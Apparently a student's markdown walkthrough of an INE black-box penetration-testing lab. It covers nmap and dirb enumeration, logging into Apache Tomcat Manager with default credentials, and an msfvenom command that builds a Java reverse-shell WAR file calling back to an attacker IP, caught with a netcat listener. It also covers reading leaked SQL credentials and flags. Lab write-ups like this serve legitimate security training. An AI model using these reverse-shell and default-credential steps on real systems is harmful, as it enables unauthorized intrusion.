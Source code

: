 # Rachel Murphy
# INE-8/20/21
# Black Box Pen Test 1

# Scenario
- You have been engaged in a Black-box Penetration Test (172.16.64.0/24 range). Your goal is to read the flag file on each machine. On some of them, you will be required to exploit a remote code execution vulnerability in order to read the flag.
- Some machines are exploitable instantly but some might require exploiting other ones first. Enumerate every compromised machine to identify valuable information, that will help you proceed further into the environment.
- If you are stuck on one of the machines, don't overthink and start pentesting another one.
- When you read the flag file, you can be sure that the machine was successfully compromised. But keep your eyes open - apart from the flag, other useful information may be present on the system.

# Goals
- Discover and exploit all the machines on the network
- Read all flag files (one per machine)

# What you will learn
- How to exploit Apache Tomcat
- How to exploit SQL server
- Post Exploitation Discovery
- Arbitrary file upload exploitation

# Recommended Tools
- Dirb
- Metasploit framework
- Nmap 
- Netcat

---

1. Find alive hosts on the network.

`nmap -sn 172.16.64.0/24`

```
Nmap scan report for 172.16.64.101
Host is up (0.12s latency).
MAC Address: 00:50:56:A2:52:F0 (VMware)
Nmap scan report for 172.16.64.140
Host is up (0.11s latency).
MAC Address: 00:50:56:A2:E4:85 (VMware)
Nmap scan report for 172.16.64.182
Host is up (0.059s latency).
MAC Address: 00:50:56:A2:B1:61 (VMware)
Nmap scan report for 172.16.64.199
Host is up (0.057s latency).
MAC Address: 00:50:56:A2:BF:51 (VMware)
Nmap scan report for 172.16.64.10
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 5.24 seconds
```
Five hosts are up.

Performing service detection scan against all targets.

`sudo nmap -sV -sS -v 172.16.64.10,101,140,182,199 -oN servicescan.txt`

Nmap results for `172.16.64.101` -pwn. 

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
9080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
MAC Address: 00:50:56:A2:52:F0 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Nmap results for `172.16.64.140` -

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
MAC Address: 00:50:56:A2:E4:85 (VMware)
```
Nmap results for `172.16.64.182`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
MAC Address: 00:50:56:A2:B1:61 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Nmap results for `172.16.64.199`

```
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2014 12.00.2000
MAC Address: 00:50:56:A2:BF:51 (VMware)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
- Beginning with `172.16.64.101` and visiting the webserver over port 8080.

Using DIRB with `dirb http://172.16.64.101:8080/ /usr/share/dirb/wordlists/vulns/apache.txt`

Apache Tomcat Manager Auth Page at http://172.16.64.101:9080

Logged into webapp with username: tomcat password: s3cret

Uploaded .war file exploit with msfvenom (USE LHOST VPN IP!!)
`msfvenom -p java/shell_reverse_tcp lhost=172.16.64.10 lport=1996 -f war -o 2pwn.war`
Set up netcat listener and then deploy the 2pwn .war file
`nc -lvnp 1996` 
Remote connection made and locate the flag.txt files with `locate flag.txt`

- Next target http://172.16.64.140:80
- Apache httpd 2.4.18
Enumerating directories with dirb.
`dirb http://172.16.64.140:80 /usr/share/wordlists/dirb/common.txt`
Navigated to the /project directory
Entered credentials: admin:admin
and.....accessed web browser. potential SQLi
Enumerate harder.
dirb http://172.16.64.140/project -u admin:admin 

INTERESTING DIRECTORY
http://172.16.64.140/project/backup/test/sdadas.txt

Driver={SQL Server};Server=foosql.foo.com;Database=;Uid=fooadmin;Pwd=fooadmin;
/var/www/html/project/354253425234234/flag.txt

![mysqlcreds](https://user-images.githubusercontent.com/76081641/130326946-f9519d7e-60da-4d55-a8a1-499906bcd998.png)


Perform a simple directory traversal to read the flag.txt file. 

http://172.16.64.140/project/354253425234234/flag.txt


- Next target `172.16.64.182`

Recalling the nmap scan 

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
MAC Address: 00:50:56:A2:B1:61 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- Next target `172.16.64.199`

Recalling the nmap scan 

```
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2014 12.00.2000
MAC Address: 00:50:56:A2:BF:51 (VMware)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Most likely a null session or mssql vulnerability.
